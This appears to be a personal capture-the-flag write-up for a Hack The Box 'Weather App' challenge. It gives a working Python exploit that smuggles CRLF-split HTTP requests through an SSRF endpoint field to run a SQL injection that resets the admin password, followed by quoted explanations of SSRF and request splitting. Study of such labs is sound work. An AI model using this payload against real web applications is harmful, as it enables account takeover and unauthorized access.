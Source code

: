 index.js checks if socket remoteaddress isn't:
127.0.0.1 return status(401)

there's a db somewhere.
some app is listening on port 80?

vulnerability:
SSRF, SQL injection
```
Path Point:
data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}
```
code:
```py
import requests

url = "http://178.62.106.4:31814"

username="admin"

password="123') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
parsedUsername = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
parsedPassword = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(parsedUsername) + len(parsedPassword) + 19
endpoint = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str (contentLength) + '\u010D\u010A\u010D\u010Ausername='+parsedUsername + '&password='+ parsedPassword + '\u010D\u010A\u010D\u010AGET\u0120/?lol='


city='test'
proxies={'http':'http://127.0.0.1:8080'};
country='test'

json={'endpoint':endpoint,'city':city,'country':country}

res=requests.post(url=url+'/api/weather',json=json,proxies=proxies);
```

This took me a long time to guess why the code won't work(yes i stole it from writeup but atleast i took research of SSRF first before i used it)
Apparently, i had to send the proxy data to repeater in order for it to work and then refresh the login webdirectory and see if it gave you the flag or
u can just login again.

this is either SSRF or request splitting but either way i'll try to explain this:

SSRF:
```
Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. 
In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials.
                                                                                                                                                                                                                                        --PortSwigger
```

SSRF uses a parameter(it can be endpoint or an API parameter, any parameter) that uses a http request to send information to that specified url, and retrieve
the contents of it:
```
data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}

PortSwigger:
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

Though, i'd rather call this as the network point or path point.

if we update the parameter or path point to:
```
stockApi=http://localhost/admin
```
this gives us the admin console or the contents of the admin webdirectory, we can visit the directory but it will be blocked or it won't show.

Request Splitting:
```
HTTP Request Splitting is an attack that enables forcing the browser to send arbitrary HTTP requests, inflicting XSS and poisoning the browser's cache. 
The essence of the attack is the ability of the attacker, once the victim (browser) is forced to load the attacker's malicious HTML page, to manipulate 
one of the browser's functions to send 2 HTTP requests instead of one HTTP request. Two such mechanisms have been exploited to date: 
the XmlHttpRequest object (XHR for short) and the HTTP digest authentication mechanism. For this attack to work, the browser must use a forward HTTP proxy 
(not all of them "support" this attack), or the attack must be carried out against a host located on the same IP (from the browser's perspective) with the 
attacker's machine.
                                    ----Webappsec.org

PortSwigger:
HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or 
more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to 
sensitive data, and directly compromise other application users.
                                    -----PortSwigger

My Explanation:
Request Splitting, as what it says in the name is the ability to send 2 request instead of one request via vulnerable parameters to gain access or to hold
sensitive data.
```

Explanation of the source code:
```
the endpoint was found from the files downloaded, provided by the HTB(weather App).
It is vulnerable to SSRF; and it is also vulnerable to Request Splitting

the proxy and the endpoint variable is the only thing important to explain the code.
as explained at the top: the endpoint in the code was vulnerable because there was no sanitization

The register was vulnerable to SQL injection( never tried the login )

the proxy is important because this is where we will need to get the retrieved data. The proxy acts as a middle man
between the connection line.

You can use burp suite as your proxy in the code to retrieve the information; and send the request again to repeater.
```

Source:

https://portswigger.net/web-security/request-smuggling
http://projects.webappsec.org/w/page/13246929/HTTP%20Request%20Splitting


